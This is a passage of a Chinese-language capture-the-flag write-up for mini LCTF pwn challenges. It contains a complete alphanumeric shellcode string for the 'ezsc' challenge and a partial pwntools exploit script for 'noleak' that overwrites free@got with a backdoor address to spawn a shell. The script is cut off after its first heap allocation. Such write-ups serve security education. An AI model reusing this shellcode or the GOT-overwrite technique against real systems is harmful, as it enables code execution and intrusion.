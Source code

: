 ```python
io.sendline(payload)

io.interactive()
```

这种做法没有用到 bd 函数

### ezsc | Author：Lunatic

容易看出这是一道 alphanumeric shellcode 类型的题目，取一条合适的 shellcode 一把梭即可

```python
WTYH39Yj0TYfi9XVWAXfi94WWAYjZTYfi9TVWAZjdTYfi9BgWZjJTYfi92ERARZ0T8AZ0T8CRAPZ0T8DZ0T8ERAQZ0T8FZ0T8GRAPZ0T8HZ0T8IRAQZ0T8JZ0T8KRAPZ0T8MZRARZ0T8NZRAPZ0t8QZ0T8RRAPZ0t8VZ0T8W0t8X0t8Y0t8Z1HHsQUVYPDW7HwSSToQRWTnxnZP
```

### noleak | Author：Lunatic

一道存在后门函数的堆题，于是可以想到覆盖 free@got 为后门函数地址，再调用 free 函数 get shell

#### 利用脚本如下：

```python
# pwn.challenge.mini.lctf.online 10011

from pwn import *

context.log_level = 'debug'

if args.G:
    io = remote('pwn.challenge.mini.lctf.online', 10011)
else:
    io = process('./time_management')

def add(size, content):
    io.recvuntil('Your choice :')
    io.sendline('1')
    io.recvuntil('How many minutes will it take you to finish?')
    io.sendline(str(size))
    io.recvuntil('Content of the plan:')
    io.sendline(content)

def edit(ticket, size, content):
    io.recvuntil('Your choice :')
    io.sendline('2')
    io.recvuntil('Index :')
    io.sendline(str(ticket))
    io.recvuntil('How many minutes will it take you to finish?')
    io.sendline(str(size))
    io.recvuntil('Content of the plan:')
    io.sendline(content)

def dele(ticket):
    io.recvuntil('Your choice :')
    io.sendline('3')
    io.recvuntil('Index :')
    io.sendline(str(ticket))

prt_arr = 0x6020c0
get_shell = 0x400C9F

# gdb.attach(io)

add(0x60, 'AAAA') # 0
```